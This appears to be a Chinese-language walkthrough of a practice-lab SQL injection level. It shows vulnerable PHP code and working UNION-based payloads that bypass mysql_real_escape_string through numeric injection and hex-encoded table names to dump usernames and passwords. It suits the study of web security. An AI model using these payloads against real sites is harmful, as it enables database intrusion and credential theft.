



# sql4

进入example4.php

源码
```php
<?php
  require_once('../header.php');
  require_once('db.php');
  $sql="SELECT * FROM users where id=";
        $sql.=mysql_real_escape_string($_GET["id"])." ";
        $result = mysql_query($sql);


        if ($result) {
                ?>
                <table class='table table-striped'>
      <tr><th>id</th><th>name</th><th>age</th></tr>

                <?php
                while ($row = mysql_fetch_assoc($result)) {
                        echo "<tr>";
                        echo "<td>".$row['id']."</td>";
                        echo "<td>".$row['name']."</td>";
                        echo "<td>".$row['age']."</td>";
                        echo "</tr>";
                }
                echo "</table>";
        }
    require '../footer.php';
?>
```

这里使用了mysql_real_escape_string来过滤\x00, \n, \r, \, ', " 和 \x1a这些特殊字符
但是它这里却是数字型注入不需要**'**或者**"**去闭合所以呢
这个mysql_real_escape_string函数没啥吊用
> 我错了还是有吊用的，在**information_schema.columns where table_name=**的这个地方是要加单引号或者双引号来把字符标明为字符串的，但是这里使用了mysql_real_escape_string这个函数把单引号和双引号给转义了所以查询失败，我纳闷了好久为啥没东西 出来就是因为这个转义(shit!!!)
不过这样也可以绕过，数据库会把这些语句给转成十六进制然后在执行，所以这里可以直接把users给编码成十六进制就可以执行了

直接正常注入就好
payload
```sql
example4.php?id=-1 union select 1,group_concat(column_name),3,4,5 from information_schema.columns where table_name=0x7573657273 %23
```

之后查看字段名就好了
```sql
example4.php?id=-1 union select 1,group_concat(name),group_concat(passwd),4,5 from users %23
```

拿到数据

| 请求方式 |               过滤方式               |                        注入方式                         |     闭合方式     |
| -------- | ----------------------------------- | ------------------------------------------------------- | --------------- |
| GET      | mysql_real_escape_string转义特殊字符 | 联合查询，把payload的要用到引号的地方转码成十六进制进行绕过 | 数字型不需要闭合 |

过关！！！！！！！
芜湖~起飞~~✈